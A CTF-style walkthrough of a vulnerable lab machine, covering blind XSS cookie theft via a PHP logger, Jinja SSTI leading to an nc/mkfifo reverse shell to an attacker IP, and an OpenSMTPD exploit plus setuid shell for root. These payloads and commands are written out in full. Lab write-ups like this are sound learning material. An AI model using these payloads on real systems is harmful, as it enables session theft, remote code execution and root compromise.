

## Nmap


This looks like a simple start, only two ports are open. We'll start our enumeration from port 80.

***

## HTTP


If we visit the website we find a really amazing website. The first thing I did was started `dirsearch` on it.


We can see there is a `/admin` path. When we visit that page we see some kind of custom management section.


I started to look around and noticed there was a `request access` option which asked for your `firstname` and `lastname`. Now this seems fishy because if there was an `admin` system it wouldn't just allow anyone to `request` any kind of access.I started to look around the page and play with the different inputs.


After trying loads of things @DCAU told me that there was blind XSS in `Lastname` field. Also it wouldn't just show up, we will need some way to reflect the output. The thing about this XSS was that trying basic XSS payloads like `<script>alert('hack')</script>` might not show anything.

@DCAU figured out that we can right a script for stealing the cookie. First we made a script named `cookie.php` which had the following content

```php
<?php
header ('Location:http://192.168.177.130/admin');
$cookies = $_GET["c"];
$file = fopen('log.txt', 'a');
fwrite($file, $cookies . "\n\n");
?>
```

In this we are making a new file named `log.txt` which writes `cookies` in it. And to make this successful we are going to enter the following payload as `lastname`

```html
<svg onload=document.location='http://192.168.177.1/cookies.php?c='+document.cookie;>
```

You need to start `apache2` and keep that `cookie.php` file in `/var/www/html` directory of your attacking system. If all this is done correctly then after few minutes you'll see cookie in the `access.log`


Now we can use that cookie to login.

```
.eJwlz0tqAzEQBNC7aO1F_yS1fJlB6g8xhgRm7FXI3S0ItSsoePVbjjzj-ir31_mOWzkeXu6FCFRdBhuGRE-HYTYqWFZQSnCb0pvJalSxshES76rxkAVTwlBgTYOwnTbCGTLAO7Zk46FAjIyujc27A1FQio7MqeQqVG7FrjOP188zvrfHh822NoebzkSWNX0wos7Wqy_wHLCha-_eV5z_J6T8fQCgbT9g.XkRs9Q.nV5gIsT9fuCXGnEi2FdsHKseHuU
```

This was my cookie so I added that to the `storage` section of `developer tools` in `Firefox`. And then just clicked on the `Login` button and with that we'd be in.


Since now I was admin so the first thing I tried was `Shell` tabs but it shows `Don't think so!` error message. So the only interesting page was `logs` but the issue with that was it redirects you to `request access` page. 

But we can still read logs with the help of burp. Just start burp suite and capture the request to `Log` tabs and then forward the request once and you'll se a log portal.



In this dropdown there were 3 option I selected the `adminsite` part(last option) and then again forwared the request using burp and that's when I was able to read the logs.


But even in logs we don't find anything so I started to test with the cookies. In order to see anything you need to keep the log tabs opened.

Using a firefox addon named [`Cookie editor`](https://addons.mozilla.org/en-US/firefox/addon/edit-cookie/) I added a new section of cookie and started to add different payload which were base64 encoded. 

After few trials I found the correct vulnerability.


For this my payload was `{{7*'7'}}` which returns `7777777` if jinja template is rendering with strings, meaning we can exploit this for SSTI.

I base64 encoded the following payload and send it in a a new section of cookie.

```
{{''.__class__.mro()[1].__subclasses__()}} 
```
If the request was sent without error then you'll see a huge output in the log file, these are all the classes.


Now since we have all the classes we need to find the index of the `Subprocess.Popen` file so we can use that to get a get RCE which will give us reverse shell.

To be able to find the correct index I copied all the class in a file and opened that file in vim and ran the following command inside vim

```
%s/,/\r/g
```

This will seperate all the `,` into next line, save the file and then `grep` for `Popen`.


We can see that it is on line `412` meaning index is 411 cause the first line was bogus in our file.

I then encoded the following payload and sent it the similar way as we did it before i.e by using cookie editor

```python
{{''.__class__.mro()[1].__subclasses__()[411]('mkfifo /tmp/jlbu; nc -nv 192.168.1.125 80 0</tmp/jlbu | /bin/sh >/tmp/jlbu 2>&1; rm /tmp/jlbu',shell=True,stdout=-1).communicate()}}
```

__NOTE__: Make sure to use lower ports like 80 or 443 to transfer any file or in reverse shell payload. Because when I tried to use 4444 or such ports it didn't worked.

This will give us reverse shell.


***

## Privilege escalation

I started to look around but didn't saw anything interesting. 


We can see that the IP `10.13.37.1` is opened at port `25` which is for `SMTP` and since this was OpenBsd I knew it right away that it would be [OpenSMTP exploit](https://www.exploit-db.com/exploits/48051) which was recently discovered.

So I downloaded that exploit using the following command:

```bash
curl http://192.168.1.125:443/exp.py -o exp.py
```

The issue was I couldn't execute the `nc` reverse shell code via this. So I downloaded a `c` file which had the following code in it:

```c
int main(void) {
       setgid(0); setuid(0);
       execl("/bin/sh","sh",0);
}
```

Once it was downloaded I compiled it by running `gcc shell.c -o pwn` and then ran the following command

```bash
python3 /tmp/exploit.py 10.13.37.1 25 mofo.org 'chown root:wheel /tmp/pwn'
python3 /tmp/exploit.py 10.13.37.1 25 mofo.org 'chmod 4755 /tmp/pwn'
./pwn
```

This would give you rootshell.


And then just read the root flag.


***

This was another amazing machine by @andreaz and @theart42. Thanks for that and also thanks to @DCAU for all the help.

***

Thanks for reading, feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄


